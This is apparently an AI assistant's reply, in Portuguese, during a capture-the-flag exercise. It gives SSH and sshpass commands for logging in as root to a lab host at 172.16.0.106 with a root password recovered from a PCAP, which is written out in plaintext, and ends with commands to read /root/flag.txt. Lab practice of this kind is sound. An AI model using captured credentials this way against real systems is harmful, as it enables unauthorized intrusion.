 Com a senha root que encontramos, o comando SSH para login direto como root é:

## 🔐 **Comando SSH para Login Root:**

```bash
ssh root@172.16.0.106
```

**Quando pedir a senha, cole:**
```
ASfojoj2eozxczzmedlmedASASDKoj3o
```

## 🔄 **Alternativas se o SSH root estiver bloqueado:**

### **Opção 1 - Login como alex e depois su:**
```bash
# Primeiro login como alex
ssh alex@172.16.0.106
# Senha do alex: [a senha que você encontrou no PCAP]

# Depois fazer su para root
su -
# Colar a senha root: ASfojoj2eozxczzmedlmedASASDKoj3o
```

### **Opção 2 - Especificar a senha diretamente (com sshpass):**
```bash
sshpass -p 'ASfojoj2eozxczzmedlmedASASDKoj3o' ssh root@172.16.0.106
```

## 🚨 **Se tiver problemas de conexão SSH, verifique:**

### **1. Se a porta SSH é a padrão (22):**
```bash
ssh root@172.16.0.106 -p 22
```

### **2. Se precisar de chave SSH:**
```bash
ssh -o PubkeyAuthentication=no root@172.16.0.106
```

### **3. Para debug da conexão:**
```bash
ssh -v root@172.16.0.106
```

## ✅ **Após conectar, pegue a flag:**
```bash
cat /root/flag.txt
# ou
ls /root/
cat /root/*.txt
```

**Execute primeiro o comando simples `ssh root@172.16.0.106` e me diga o que acontece!** Se não funcionar, tentamos as alternativas.
